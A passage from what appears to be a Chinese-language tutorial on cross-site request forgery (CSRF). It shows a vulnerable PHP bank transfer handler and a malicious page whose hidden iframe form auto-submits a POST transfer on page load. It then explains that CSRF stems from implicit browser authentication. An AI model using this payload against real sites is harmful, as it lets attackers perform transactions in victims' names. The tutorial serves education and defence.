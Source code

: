 　　**示例3：**

　　经过前面2个惨痛的教训，银行决定把获取请求数据的方法也改了，改用$_POST，只获取POST请求的数据，后台处理页面Transfer.php代码如下：

[![复制代码](CSRF.assets/copycode.gif)](javascript:void(0);)

　　<?php
　　　　session_start();
　　　　if (isset($_POST['toBankId'] &&　isset($_POST['money']))
　　　　{
　　　　  buy_stocks($_POST['toBankId'],　$_POST['money']);
　　　　}
　　?>

[![复制代码](CSRF.assets/copycode.gif)](javascript:void(0);)

　　然而，危险网站B与时俱进，它改了一下代码：

[![复制代码](CSRF.assets/copycode.gif)](javascript:void(0);)

<html>
　　<head>
<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
     　　　　 iframe = document.frames["steal"];
　　   　   iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>

[![复制代码](CSRF.assets/copycode.gif)](javascript:void(0);)

如果用户仍是继续上面的操作，很不幸，结果将会是再次不见1000块......因为这里危险网站B暗地里发送了POST请求到银行!

　　总结一下上面3个例子，CSRF主要的攻击模式基本上是以上的3种，其中以第1,2种最为严重，因为触发条件很简单，一个<img>就可以了，而第3种比较麻烦，需要使用JavaScript，所以使用的机会会比前面的少很多，但无论是哪种情况，只要触发了CSRF攻击，后果都有可能很严重。

　　理解上面的3种攻击模式，其实可以看出，CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！
